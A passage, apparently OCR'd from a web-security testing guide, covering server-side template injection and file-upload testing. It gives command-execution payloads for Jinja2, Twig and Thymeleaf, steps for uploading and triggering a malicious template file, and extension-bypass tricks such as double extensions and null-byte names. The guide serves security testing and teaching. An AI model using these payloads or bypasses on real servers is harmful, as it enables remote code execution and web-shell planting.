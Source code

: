             2: Create a Malicious File
                Craft a file with payloads designed for template injection. Examples:  

            
                

                    1- Jinja2 (Python-based engines):

                    Payload for command execution:
                    ```{{ ''.__class__.__mro__[1].__subclasses__()[407]('id', shell=True).communicate() }}```
                    Explanation:This payload exploits Python objects to call system commands (id is an example command).

                    2- Twig (PHP-based engines): Payload for command execution:
                        ``` {{ system('ls -la') }}```



                    3- Thymeleaf (Java-based engines):

                        Payload:```${T(java.lang.Runtime).getRuntime().exec('ls -la')}```


                    4- Generic Payload for Testing:

                    File with:
                          PayLoad:  ``` {{7*7}}```
                    If this executed by the server. and If 49 appears in the output, injection is possible.
        
            3: Upload the Malicious File
                Upload the file through the vulnerable file upload functionality.

            4: Trigger the Rendering
                Access the file (e.g., via a direct URL or a viewing page).
                The server renders the file content, executing any malicious code within the template.

# 5. File Upload

 __1. Reconnaissance: Gather Information__
 
    *  Understand the functionality:

                Is there a file type restriction (e.g., .jpg, .png)?
                Where is the file stored or processed after upload?
                Can the uploaded file be accessed publicly?
    *  Observe responses:

                Does the server return error messages or specific file paths after upload?

 __2. Test File Extension Restrictions__

            Many file upload mechanisms enforce file type restrictions based on extensions, but these can often be bypassed:

   *  Upload files with double extensions:
      - Example: shell.php.jpg or malicious.asp;.jpg

   *  Use case-insensitive extensions:
      - Example: test.JPG, file.PHp

   * Add invalid characters after the extension:
      - Example: test.php%00.jpg (works on systems that terminate file names at null bytes).
